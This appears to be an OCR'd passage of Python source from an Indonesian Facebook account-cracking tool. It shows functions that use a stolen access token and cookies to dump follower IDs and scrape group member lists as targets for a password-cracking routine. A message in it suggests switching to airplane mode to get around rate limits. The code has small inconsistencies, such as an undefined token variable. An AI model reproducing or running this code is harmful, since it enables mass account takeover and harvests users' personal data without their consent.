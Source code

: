 		time.sleep(3)
		back()
#-------------------[ CRACK-PENGIKUT ]----------------#
def dump_pengikut():
	try:
		token = open('.token.txt','r').read()
		cok = open('.cok.txt','r').read()
	except IOError:
		exit()
	print('=>TYPE ME IF YOU WNT DUMP TOKEN ID FRIENDS ')
	pil = input('âž¥âž£ENTER ID LNK : ')
	try:
		koh2 = requests.get('https://graph.facebook.com/'+pil+'?fields=subscribers.limit(99999)&access_token='+tokenku[0],cookies={'cookie': cok}).json()
		for pi in koh2['subscribers']['data']:
			try:id.append(pi['id']+'|'+pi['name'])
			except:continue
		print(f'=>Total Idz :{h} '+str(len(id)))
		setting()
	except requests.exceptions.ConnectionError:
		print('=>CHEK INTRNT ')
		exit()
	except (KeyError,IOError):
		print('=>ERORR ')
		exit()
#------------------[ CRACK-GRUP ]-----------------#
balmond = b+"["+h+"âœ“"+b+"]"

def lah():
	print("\r"+balmond+m+" \x1b[1;95mTotal ID Yang Terkumpul :\x1b[1;97m "+str(len(id))+"                     ")
	input(balmond+m +"\x1b[1;97m Klik [\x1b[1;96m Enter ]\x1b[1;97m Jika Ingin Langsung Crack !!")
	pass
	setting()
def grup():
	print('')
	id = input(""+balmond+h+" \x1b[1;94m>> ENTER GRUP LINK :\x1b[1;94m ")
	ua = 'Mozilla/5.0 (SymbianOS/9.3; Series60/3.2 NokiaE52-1/052.003; Profile/MIDP-2.1 Configuration/CLDC-1.1 ) AppleWebKit/525 (KHTML, like Gecko) Version/3.0 BrowserNG/7.2.6.2 3gpp-gba'
	miskinlu = {"user-agent": ua}
	url = "https://mbasic.facebook.com/groups/"+id
	ses = requests.Session()
	try:
		gn = parser(ses.get(url, headers=miskinlu).text, 'html.parser')
	except requests.exceptions.ConnectionError:
		print(balmond+m+" CHEK INTERNT..")
		time.sleep(0.5)
		exit()
	berr = gn.find("title")
	berr2 = berr.text.replace(" | Facebook","").replace(" Grup Publik","")
	if berr2=='Masuk Facebook':
		print(balmond+m+" Limit, Silahkan Mode Pesawat Dan Coba Lagi..")
		time.sleep(0.5)
		crack_grup()
	elif berr2=='Kesalahan':
		jalan(balmond+m+" Grup Tidak Ditemukan..")
		time.sleep(0.5)
		crack_grup()
	else:pass
	print(""+balmond+p+" \x1b[1;94m>> Nama Grup :\x1b[1;97m "+berr2)
	ggs = gn.find_all('table')
	ang = []
	for ff in ggs:
		anggo = ff.text